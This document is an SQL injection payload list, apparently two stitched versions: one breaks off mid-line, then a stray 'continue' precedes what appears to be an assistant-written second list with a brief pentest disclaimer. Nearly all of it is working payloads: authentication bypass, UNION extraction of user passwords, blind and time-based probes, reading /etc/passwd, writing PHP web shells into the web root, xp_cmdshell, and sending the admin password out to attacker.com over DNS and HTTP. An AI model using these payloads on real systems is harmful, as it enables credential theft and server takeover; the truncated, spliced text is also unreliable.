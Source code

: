 

# SQL Injection (SQLi) Payloads List

Below is a collection of common SQL injection payloads categorized by attack type and database technology.

## Basic Authentication Bypass

```
' OR '1'='1
' OR 1=1 --
' OR 1=1 #
admin' --
admin' #
admin'/*
admin' OR '1'='1
```

## Union-Based Attacks

```
UNION SELECT null,username,password FROM users--
UNION SELECT 1,2,3,4--
UNION ALL SELECT database(),user(),version()--
```

## Error-Based Attacks

```
AND (SELECT 0 FROM (SELECT count(*),concat(version(),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)
AND GTID_SUBSET(CONCAT(0x7e,(SELECT USER()),0x7e),0)
EXTRACTVALUE(rand(),concat(0x3a,(select database())))
```

## Boolean-Based Blind SQLi

```
AND SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a'
AND ASCII(SUBSTRING((SELECT database()),1,1))>100
```

## Time-Based Blind SQLi

```
IF(SUBSTRING(database(),1,1)='a',SLEEP(5),0)
; WAITFOR DELAY '0:0:5' --
OR (SELECT * FROM (SELECT(SLEEP(5)))a)
```

## Database-Specific Payloads

### MySQL
```
@@version
LOAD_FILE('/etc/passwd')
INTO OUTFILE '/var/www/html/shell.php'
CONNECTION_ID()
```

### MSSQL
```
@@SERVERNAME
xp_cmdshell('whoami')
WAITFOR DELAY '0:0:5'
```

### Oracle
```
(SELECT banner FROM v$version WHERE rownum=1)
UTL_HTTP.REQUEST('http://attacker.com')
DBMS_LOCK.SLEEP(5)
```

### PostgreSQL
```
current_database()
pg_sleep(5)
COPY (SELECT '<?php system($_GET[cmd]); ?>') TO '/var/www/html/shell.php'
```

## Out-of-Band Techniques

```
||UTL_HTTP.request('http://attacker.com/'||database())--
EXEC master..xp_dirtree '\\att

continue

 Here’s a list of common SQL injection (SQLi) payloads categorized by attack type. These can be used for testing and understanding SQL injection vulnerabilities (only in authorized environments like penetration testing or CTFs).

---

### **1. Basic Authentication Bypass**
```sql
' OR '1'='1
' OR 1=1 -- 
" OR "" = "
admin' --
admin' OR '1'='1
```

---

### **2. UNION-Based Attacks**
Extract data from other tables using `UNION SELECT`:
```sql
' UNION SELECT 1,2,3 -- 
' UNION SELECT username, password, NULL FROM users -- 
```

---

### **3. Error-Based SQLi**
Trigger database errors to extract information:
```sql
' AND (SELECT 0 FROM (SELECT COUNT(*), CONCAT((SELECT @@version), FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- 
```

---

### **4. Boolean-Based Blind SQLi**
True/False conditions to infer data:
```sql
' AND SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1)='a' -- 
```

---

### **5. Time-Based Blind SQLi**
Delay-based inference:
```sql
'; IF (SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1)='a') WAITFOR DELAY '0:0:5' -- 
```

---

### **6. Out-of-Band Data Exfiltration**
Exfiltrate data via DNS/HTTP requests:
```sql
'; DECLARE @data VARCHAR(1024); SET @data=(SELECT password FROM users WHERE username='admin'); EXEC('master..xp_dirtree "\\'+@data+'.attacker.com\share"') -- 
```

---

### **7. File System Access**
Read/write files (if DB permissions allow):
```sql
' UNION SELECT LOAD_FILE('/etc/passwd'), NULL, NULL -- 
'; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/shell.php' -- 
```

---

### **8. Database-Specific Payloads**

#### **MySQL / MariaDB**
```sql
-- Version check  
SELECT @@version  

-- List databases  
SELECT schema_name FROM information_schema.schemata